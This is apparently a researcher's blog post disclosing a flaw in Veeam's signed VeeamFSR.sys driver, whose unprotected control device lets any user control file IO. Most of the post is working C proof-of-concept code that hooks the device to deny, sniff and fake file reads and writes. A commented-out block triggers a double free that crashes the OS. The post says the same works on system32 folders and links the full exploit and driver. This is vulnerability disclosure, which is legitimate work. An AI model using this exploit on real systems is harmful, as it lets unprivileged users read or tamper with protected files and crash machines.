







**[TL;DR]**

Veeam ships signed file system filter with no ACL on its control device object. The driver allows to control all IO operations on any file in the specified folder. Having the driver loaded one can fake reads, writes and other operations on any file in the file system regardless of its permissions.

Some time ago I've stumbled upon Veeam backup solution. Amongst other files the installer drops VeeamFSR.sys: file system filter driver signed by Veeam. Quick overview in IDA showed no DACL on the device object, hence full access to everyone. So I've decided to take a deeper look. VeeamFSR exposes a set of IoCtls that allows any user mode application to control all IO operations on the specified folder and its child objects. Once the app specifies the folder to monitor, the driver will pend all IO related to the folder and its children and notify the app about the IO. The app in turn can pass the IO, fail it, get the the data of the IO or even fake it. I wrote a small PoC that shows how to manipulate VeeamFSR for fun and profit.
***
**[Setting things up]**

First of all, we have to open the control device and tell the driver which folder we want to monitor. CtlCreateMonitoredFolder is a wrapper over IOCTL_START_FOLDER_MONITORING IoCtl. The IoCtl gets the following struct as input parameter:

struct MonitoredFolder
{
    HANDLE SharedBufSemaphore;
    DWORD d1;
    HANDLE NewEntrySemaphore;
    DWORD d2;
    DWORD f1;  //+0x10
    DWORD SharedBufferEntriesCount; //+0x14
    DWORD PathLength; //+0x18
    WCHAR PathName[0x80]; //+0x1C
};

and outputs:

struct SharedBufferDescriptor
{
    DWORD FolderIndex;
    DWORD SharedBufferLength;
    DWORD SharedBufferPtr;
    DWORD Unk;
};

Once the call to DeviceControl succeeds, VeeamFSR will wait all calls to (Nt)CreateFile that contain the monitored folder in the pathname. All such calls will end up in non alertable kernel mode sleep in KeWaitForSingleObject.

Second important thing is to unwait these calls with IOCTL_UNWAIT_REQUEST IoCtl. Failing to do that leads to applications hang. By the way, passing UnwaitDescriptor::UserBuffer to the IoCtl causes double free in the driver, so if you want to kaboom the OS, this is the way to do it. (See CtlUnwaitRequest for details)

Internally VeeamFSR creates and maintains lists of objects that represent monitored folders, opened streams, and a few other object types; quite similar to what Windows object manager subsystem does. Every object has a header that contains reference counter, pointer to the object methods, etc. The constructor of the MonitoredFolder object, amongst other things, creates shared kernel-user buffer in the context of the controller app.

Funny, for some reason Veam developers think that only contiguous buffer can be mapped to user mode memory.

The app gets the pointer to the buffer in SharedBufferDescriptor::SharedBufferPtr field, the output parameter of IOCTL_START_FOLDER_MONITORING IoCtl. VeeamFSR writes parameters of IO to the buffer and notifies the app about the new entry by releasing MonitoredFolder::NewEntrySemaphore semaphore. The controller app might manipulate the IO data in the shared buffer before unwaiting the IO request. Every entry of the buffer consists of a predefined header that identifies the IO and the body which is operation dependent:

struct CtrlBlock
{
    BYTE ProcessIndex;
    BYTE FolderIndex;
    WORD FileIndex : 10;
    WORD MajorFunction : 6;
};

struct SharedBufferEntry
{
    //header
    DWORD Flags;
    union
    {
        CtrlBlock Ctrl;
        DWORD d1;
    };

    //body
    DWORD d2;
    DWORD d3;

    DWORD d4;
    DWORD d5;
    DWORD d6;
    DWORD d7;
};

Now we have everything to build a basic IO pump that enables monitoring for c:\tmp folder, logs open calls to console and unwaits them. Throughout the post I will extend the snippet adding features like IO monitoring, failing and faking. See the full code on [GitHub](https://github.com/zwclose/veeamon/blob/master/VeeamonBasic.cpp)

int wmain(int arc, wchar_t** argv)
{
    if (arc != 2)
    {
        printf("Usage: veeamon NativePathToFolder\n");
        return -1;
    }

    HANDLE hDevice = CreateFileW(L"\\\\.\\VeeamFSR", GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, 0, OPEN_EXISTING, 0, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("CreateFileW: %d\n", GetLastError());
        return -1;
    }

    HANDLE SharedBufSemaphore;
    HANDLE NewEntrySemaphore;
    WORD CurrEntry = 0;

    PCWCHAR Folder = argv[1];
    if (CtlCreateMonitoredFolder(
        hDevice,
        Folder,
        &SharedBufSemaphore,
        &NewEntrySemaphore) == FALSE)
    {
        printf("Failed setting up monitored folder\n");
        return -1;
    }

    printf("Set up monitor on %ls\n", Folder);
    printf("FolderIndex: 0x%x\n", SharedBufDesc.FolderIndex);
    printf("Shared buffer: %p\n", (PVOID)SharedBufDesc.SharedBufferPtr);
    printf("Shared buffer length: 0x%x\n", SharedBufDesc.SharedBufferLength);
    printf("Uknown: 0x%x\n", SharedBufDesc.Unk);
    printf("\nStarting IO loop\n");

    SharedBufferEntry* IOEntryBuffer = (SharedBufferEntry*)SharedBufDesc.SharedBufferPtr;
    SharedBufferEntry* IOEntry;

    for (;;)
    {
        LONG l;

        ReleaseSemaphore(NewEntrySemaphore, 1, &l);
        WaitForSingleObject(SharedBufSemaphore, INFINITE);

        printf("Entry #%d\n", CurrEntry);

        IOEntry = &IOEntryBuffer[CurrEntry];
        switch (IOEntry->Ctrl.MajorFunction)
        {
        //
        // IRP_MJ_XXX and FastIo handlers
        //
        case 0x0: //IRP_MJ_CREATE
        case 0x33: //Fast _IRP_MJ_CREATE
        {
            PrintEntryInfo("IRP_MJ_CREATE", IOEntryBuffer, IOEntry);
            CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_PassDown);

            break;
        }
        default:
        {
            CHAR OpName[40]{};
            sprintf_s(OpName, 40, "IRP_MJ_%d", IOEntry->Ctrl.MajorFunction);
            PrintEntryInfo(OpName, IOEntryBuffer, &IOEntryBuffer[CurrEntry]);

            break;
        }

        //
        // Special entry handlers
        //
        case 0x37: //Name entry
        {
            printf("\tADD\n");

            switch (IOEntry->d2)
            {
            case ProcessEntry:
                printf("\tprocess: %d\n", IOEntry->d6);
                ProcessMapping[IOEntry->d3] = CurrEntry;
                break;
            case FileEntry:
                //.d4 == length
                printf("\tfile: %ls\n", (PWSTR)IOEntry->d6);
                FileMapping[IOEntry->d3] = CurrEntry;
                break;
            case MonitoredEntry:
                //.d4 == length
                printf("\tmonitored dir: %ls\n", (PWSTR)IOEntry->d6);
                break;
            }

            break;
        }
        case 0x38:
        {
            printf("\tDELETION\n");
            switch (IOEntry->d2)
            {
            case ProcessEntry:
                printf("\tprocess\n");
                break;
            case FileEntry:
                printf("\tfile\n");
                break;
            case MonitoredEntry:
                printf("\tmonitored dir\n");
                break;
            }
            printf("\tindex: %d\n", IOEntry->d2);

            break;
        }
        case 0x39:
        {
            printf("\tCOMPLETION of IRP_MJ_%d, index = %d, status = 0x%x, information: 0x%x\n",
                IOEntry->d2,
                IOEntry->d3,
                IOEntry->d4,
                IOEntry->d5);

            break;
        }
        case 0x3A:
        {
            printf("\tWRITE-related entry\n");
            break;
        }
        }

        printf("\t0x%.8x 0x%.8x  0x%.8x 0x%.8x\n", IOEntry->Flags, IOEntry->d1, IOEntry->d2, IOEntry->d3);
        printf("\t0x%.8x 0x%.8x  0x%.8x 0x%.8x\n", IOEntry->d4, IOEntry->d5, IOEntry->d6, IOEntry->d7);

        CurrEntry++;
        if (CurrEntry >= 0x200)
        {
            break;
        }
    }

    CtlDestroyFolder(hDevice, 0);
    CloseHandle(hDevice);

    printf("Press any key...\n");
    getchar();

    return 0;
}


With the snippet running on \Device\HarddiskVolume1\tmp, navigation to 'tmp' folder triggers a bunch of open calls in Explorer.exe

**[Deny everything]**

VeeamFSR provides a few options of handling waited IO requests:
1. Pass thru the request (boring)
2. Deny access (better)
3. Sniff request data (toasty)
4. Fake request data (outstanding!)

The controller app tells the driver about its decision by passing one or more flags of RequestFlags enum to CtlUnwaitRequest function, which is a wrapper for IOCTL_UNWAIT_REQUEST IoCtl.


enum RequestFlags : BYTE
{
    RF_CallPreHandler = 0x1,
    RF_CallPostHandler = 0x2,
    RF_PassDown = 0x10,
    RF_Wait = 0x20,
    RF_DenyAccess = 0x40,
    RF_CompleteRequest = 0x80,
};

BOOL CtlUnwaitRequest(
    HANDLE hDevice,
    CtrlBlock* Ctrl,
    WORD SharedBufferEntryIndex,
    RequestFlags RFlags
)
{
    struct UnwaitDescriptor
    {
        CtrlBlock Ctrl;

        DWORD SharedBufferEntryIndex;
        RequestFlags RFlags;
        BYTE  IsStatusPresent;
        BYTE  IsUserBufferPresent;
        BYTE  SetSomeFlag;
        DWORD Status;
        DWORD Information;
        PVOID UserBuffer;
        DWORD d6;
        DWORD UserBufferLength;
    };

    DWORD BytesReturned;
    UnwaitDescriptor Unwait = { 0, };

    Unwait.Ctrl.FolderIndex = Ctrl->FolderIndex;
    Unwait.Ctrl.MajorFunction = Ctrl->MajorFunction;
    Unwait.Ctrl.FileIndex = Ctrl->FileIndex;
    Unwait.SharedBufferEntryIndex = SharedBufferEntryIndex;
    Unwait.RFlags = RFlags;

    Unwait.IsUserBufferPresent = 0;

    // Uncomment the code below to crash the OS.
    // VeeamFSR doesn't handle this parameter correctly. Setting IsUserBuffPresent to true 
    // leads to double free in the completion rountine.
    //Unwait.UserBuffer = (PVOID)"aaaabbbb";
    //Unwait.UserBufferLength = 8;
    //Unwait.IsUserBufferPresent = 1;

    BOOL r = DeviceIoControl(hDevice, IOCTL_UNWAIT_REQUEST, &Unwait, sizeof(Unwait), 0, 0, &BytesReturned, 0);
    if (r == FALSE)
    {
        printf("UnwaitRequest failed\n");
    }
    return r;
}


Passing RFlags_PassDown flags tells the driver to pass thru the request. This is what we did in the previous sample. Passing RFlags_DenyAccess flags instructs VeeamFSR to fail the IRP with status STATUS_ACCESS_DENIED. The snippet below checks the filename of the open operation and fails it if the name contains Cthon98.txt


case 0x0: //IRP_MJ_CREATE
case 0x33: //Fast _IRP_MJ_CREATE
{
    PrintEntryInfo("IRP_MJ_CREATE", IOEntryBuffer, IOEntry);

    PCWCHAR ProtectedName = L"\\Device\\HarddiskVolume1\\tmp\\Cthon98.txt";
    DWORD EntryNameIndex = FileMapping[IOEntry->Ctrl.FileIndex];
    if (IsEqualPathName(&IOEntryBuffer[EntryNameIndex], ProtectedName))
    {
        printf("Denying access to %ls\n", ProtectedName);
        CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_DenyAccess);
        break;
    }

    CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_PassDown);

    break;
}


**[Sniffing writes, sniffiing reads]**

Accessing request data is a bit trickier. Dependently on the operation, the data might be available before or after the IRP gets completed. And this is where RF_CallPreHandler and RF_CallPostHandler flags come into play. VeeamFSR provides pre and post handlers for all IRP_MJ_XXX functions and maintains array of RequestFlags enumeration for every opened file. Each entry of the array defines how VeeamFSR should handle the call to the corresponding IRP_MJ_XXX function, no matter was it waited or not. Setting RF_CallPre/PostHandler flag to an entry instructs the driver to execute pre/post handlers for all calls to the function, while setting RFlags_DenyAccess fails all requests. The default value for all functions (except from IRP_MJ_CREATE) is RFlags_PassDown. The default for IRP_MJ_CREATE is RF_Wait.

To sniff writes we have to enable pre operation handler for IRP_MJ_WRITE function. The handler allocates memory in the controller app process, copies the write data to the allocated memory and notifies the app by creating an IRP_MJ_WRITE entry in the shared buffer. Similarly works read sniffing, however it requires post operation handler instead of pre. Note, that in both cases RFlags_PassDown should be ORed with the flags since we want to pass the request down the stack. The following snippet enables read and write sniffing:

case 0x0: //IRP_MJ_CREATE
case 0x33: //Fast _IRP_MJ_CREATE
{
    PrintEntryInfo("IRP_MJ_CREATE", IOEntryBuffer, IOEntry);

    FlagsDescritptor FlagsDescs[2];
    FlagsDescs[0].Function = 3; //IRP_MJ_READ
    FlagsDescs[0].RFlags = (RequestFlags)(RF_PassDown | RF_CallPostHandler);
    FlagsDescs[1].Function = 4; //IRP_MJ_WRITE
    FlagsDescs[1].RFlags = (RequestFlags)(RF_PassDown | RF_CallPreHandler);
    CtlSetStreamFlags(hDevice, &IOEntry->Ctrl, FlagsDescs, 2);

    CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_PassDown);

    break;
}
case 0x3: //IRP_MJ_READ
case 0x1D: //Fast IRP_MJ_READ
{
    PrintEntryInfo("IRP_MJ_READ", IOEntryBuffer, IOEntry);

    DWORD Length = IOEntry->d5;
    PBYTE Buffer = (PBYTE)IOEntry->d6;
    PrintBuffer(Buffer, Length);

    break;
}
case 0x4: //IRP_MJ_WRITE
case 0x1E: //Fast IRP_MJ_WRITE
{
    PrintEntryInfo("IRP_MJ_WRITE", IOEntryBuffer, &IOEntryBuffer[CurrEntry]);

    DWORD Length = IOEntry->d5;
    PBYTE Buffer = (PBYTE)IOEntry->d6;
    PrintBuffer(Buffer, Length);

    break;
}

Note that sometimes applications map files to memory instead of reading or writing them, so opening a file in Notepad not always triggers IRP_MJ_READ/WRITE operation.

**[Faking reads]**

Yet another delicious feature that VeeamFSR provides namely to Everyone is faking read data. This is what RFlags_CompleteRequest flag intended for. Setting this flag to the 3rd (IRP_MJ_READ) entry of file's array of flags tells the driver to wait read requests and to map read buffers to the controller app's address space. The controller app might fill the buffer with fake or modified data and unwait the request passing RFlags_CompleteRequest flag to apply changes. Unwaiting requests with this flag instructs the driver to complete the request with IoCompleteRequest rather than sending it to the actual FS driver. Thus, the controller app can actually fake data of any read operation in the OS. Pure evil, ah? The following snippet fakes the content of AzureDiamond.txt with '*' symbols while the real content of the file is ['hunter2'](http://bash.org/?244321) string:

case 0x0: //IRP_MJ_CREATE
case 0x33: //Fast _IRP_MJ_CREATE
{
    PrintEntryInfo("IRP_MJ_CREATE", IOEntryBuffer, IOEntry);

    FlagsDescritptor FlagsDescs[2];
    if (IsEqualPathName(&IOEntryBuffer[EntryNameIndex], FakeReadName))
    {
        FlagsDescs[0].Function = 3; //IRP_MJ_READ
        FlagsDescs[0].RFlags = RF_CompleteRequest;
        FlagsDescs[1].Function = 4; //IRP_MJ_WRITE
        FlagsDescs[1].RFlags = (RequestFlags)(RF_PassDown | RF_CallPreHandler);
    }
    else
    {
        FlagsDescs[0].Function = 3; //IRP_MJ_READ
        FlagsDescs[0].RFlags = (RequestFlags)(RF_PassDown | RF_CallPostHandler);
        FlagsDescs[1].Function = 4; //IRP_MJ_WRITE
        FlagsDescs[1].RFlags = (RequestFlags)(RF_PassDown | RF_CallPreHandler);
    }
    CtlSetStreamFlags(hDevice, &IOEntry->Ctrl, FlagsDescs, 2);

    CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_PassDown);

    break;
}
case 0x3: //IRP_MJ_READ
case 0x1D: //Fast IRP_MJ_READ
{
    PrintEntryInfo("IRP_MJ_READ", IOEntryBuffer, IOEntry);

    DWORD Length = IOEntry->d5;
    PBYTE Buffer = (PBYTE)IOEntry->d6;
    DWORD EntryNameIndex = FileMapping[IOEntry->Ctrl.FileIndex];
    if (IsEqualPathName(&IOEntryBuffer[EntryNameIndex], FakeReadName) == FALSE)
    {
        PrintBuffer(Buffer, Length);
    }
    else
    {
        printf("Faking read buffer with '*' for %ls\n", FakeReadName);
        for (unsigned int i = 0; i < Length; i++)
        {
            Buffer[i] = '*';
        }
        PrintBuffer(Buffer, Length);
        CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_CompleteRequest);
    }

    break;
}


**[Breaking bad]**

For the sake of simplicity all previous examples monitored c:\tmp folder. What if we want to monitor some higher rank directory, say, system32 or system32\config? Easy as pie, everything written above works for any directory in the OS, you just need to feed the path name to CtlCreateMonitoredFolder function. The screenshot shows the output of monitoring c:\windows\system32 directory:

**[EOF]**

I didn't reverse all the pre, post and replace handlers of the driver. It actually handles most, if not all, IRP_MJ_XXX functions giving non-privileged users total control over file system IO requests.

The vendor was notified about the problem about 6 months ago and doesn't bother to fix it. I guess they don't care. Full code and the driver are available at [GitHub]([GitHub](https://github.com/zwclose/veeamon/)
